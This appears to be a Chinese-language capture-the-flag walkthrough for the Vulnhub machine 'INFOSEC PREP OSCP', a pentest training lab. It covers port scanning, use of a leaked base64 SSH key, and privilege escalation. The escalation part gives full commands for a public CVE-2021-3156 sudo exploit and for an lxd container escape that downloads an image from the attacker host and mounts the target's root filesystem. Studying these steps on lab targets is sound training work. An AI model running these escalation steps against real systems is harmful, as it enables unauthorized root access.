 ```yaml
---
layer: article
title: Vulnhub	508 INFOSEC PREP OSCP
tags: pentest vulnhub Walkthrough
---
```

考点：ssh证书认证

靶机链接：<https://www.vulnhub.com/entry/infosec-prep-oscp,508/>

## 环境配置

| 名称              | IP        |
| ----------------- | --------- |
| Kali Linux        | 10.0.2.15 |
| INFOSEC PREP OSCP | 10.0.2.19 |

## 初步打点

### 端口扫描

```bash
$ export rip=10.0.2.19
$ sudo nmap -v -A -p- $rip
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 91:ba:0d:d4:39:05:e3:13:55:57:8f:1b:46:90:db:e4 (RSA)
|   256 0f:35:d1:a1:31:f2:f6:aa:75:e8:17:01:e7:1e:d1:d5 (ECDSA)
|_  256 af:f1:53:ea:7b:4d:d7:fa:d8:de:0d:f2:28:fc:86:d7 (ED25519)
80/tcp    open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| http-robots.txt: 1 disallowed entry 
|_/secret.txt
|_http-generator: WordPress 5.4.2
|_http-title: OSCP Voucher &#8211; Just another WordPress site
33060/tcp open  mysqlx?
| fingerprint-strings: 
|   DNSStatusRequestTCP, LDAPSearchReq, NotesRPC, SSLSessionReq, TLSSessionReq, X11Probe, afp: 
|     Invalid message"
|_    HY000

```

### WEB测试

#### dirb

确认80端口是wordpress

#### nikto

发现robots.txt存在secret.txt 

### 漏洞发现

一看secret.txt 的内容就是base64加密过的，解密得到ssh登录私钥

![1](https://static.iihack.com/vulnhub/508/1.png)

![2](https://static.iihack.com/vulnhub/508/2.png)

## 获得权限

查看网页获得用户名`oscp`

![3](https://static.iihack.com/vulnhub/508/3.png)

把base64解密后存为文件 `id_rsa`，登录成功

![4](https://static.iihack.com/vulnhub/508/4.png)

## 提权

### CVE-2021-3156

```bash
$ git clone https://github.com/worawit/CVE-2021-3156
$ cd CVE-2021-3156
$ python exploit_nss.py 
```

### suid

![5](https://static.iihack.com/vulnhub/508/5.png)

直接

![6](https://static.iihack.com/vulnhub/508/6.png)

### lxd/lxc

参考：<https://www.trenchesofit.com/2020/07/25/oscp-voucher-giveaway-vm-using-unintended/>

现在kali上编译镜像包

```bash
$ git clone https://github.com/saghul/lxd-alpine-builder.git
$ sudo ./build-alpine 
```





不要在`/tmp`目录

```bash
-bash-5.0$ cd ~
-bash-5.0$ wget http://10.0.2.15/alpine-v3.16-x86_64-20220829_0227.tar.gz
#找lxc
-bash-5.0$ find / -name lxc > lxcsearch.txt
-bash-5.0$ /snap/bin/lxc image import ./alpine-v3.12-x86_64-20200719_2153.tar.gz --alias trenchesofit
-bash-5.0$ /snap/bin/lxc image list
-bash-5.0$ /snap/bin/lxc storage create pool dir
-bash-5.0$ /snap/bin/lxc profile device add default root disk path=/ pool=pool
-bash-5.0$ /snap/bin/lxc init trenchesofit ignite -c security.privileged=true
-bash-5.0$ /snap/bin/lxc config device add ignite trenches disk source=/ path=/mnt/root recursive=true
-bash-5.0$ /snap/bin/lxc start ignite
-bash-5.0$ /snap/bin/lxc exec ignite /bin/sh

```

![7](https://static.iihack.com/vulnhub/508/7.png)
